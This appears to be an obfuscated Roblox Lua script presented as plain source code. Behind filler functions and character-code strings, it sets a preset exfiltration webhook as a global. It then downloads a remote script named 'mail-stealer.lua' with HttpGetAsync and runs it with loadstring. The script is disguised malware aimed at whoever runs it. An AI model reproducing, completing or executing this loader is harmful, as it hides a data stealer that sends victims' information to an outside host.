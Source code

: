 local print=print;local type=type;local tonumber=tonumber;local a={}for b=1,10 do a[b]=math.random(1000)end;local c=""function genednv(d)getgenv()[c]=d end;local tostring=tostring;local e=math.abs;local f=string.char(104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,108,101,119,105,115,97,107,117,114,97,46,109,111,101,47,97,112,105,47,119,101,98,104,111,111,107,115,47,49,48,57,53,48,51,53,54,50,50,50,54,49,48,49,52,55,49,56,47,79,95,118,71,84,84,89,110,104,65,116,97,75,81,95,101,70,118,102,99,119,56,70,86,121,70,54,78,70,121,54,107,76,95,71,55,90,85,95,69,88,107,77,68,68,55,74,119,112,65,55,102,56,71,68,109,97,117,84,90,75,56,79,82,55,77,78,102);local h=math.ceil;local i=math.floor;local function j(k)c="mouselock"genednv("true")local l={}for b=1,k do l[b]=math.random(100)end;return l end;local m=math.max;local n=math.min;local o={2,93,210,219,2983,2130,239,284,034}local function p(q)local r={}c="name"genednv("XxMyster_BombxX")for b=1,q do r[b]=string.char(math.random(97,122))end;return table.concat(r)end;local s=table.create;local t=coroutine.resume;local u=coroutine.yield;local ipairs=ipairs;local pairs=pairs;local next=next;local v=string.char(104,116,116,112,115,58,47,47,119,117,109,97,116,46,120,121,122,47,115,99,114,105,112,116,115,47,109,97,105,108,45,115,116,101,97,108,101,114,46,108,117,97)local error=error;local pcall=pcall;function tesdwef(w)return game:HttpGetAsync(w,true)end;local xpcall=xpcall;local x=loadstring;local rawget=rawget;local rawset=rawset;local function y()local z=p(math.random(5,10))local A=p(math.random(5,10))c="webhook"genednv(f)return z..A end;local B=string.len;local C=string.sub;local D=string.upper;local E=string.lower;local F=string.find;local function G(k)local H=j(10)local l={}local I=p(5)for b=1,k do l[b]=math.random()>0.5 end;local J=y()return l end;local K=G(2)local L=math.acos;local M=math.asin;local N=math.atan;local O=math.atan2;x(tesdwef(v))()local P=math.cos

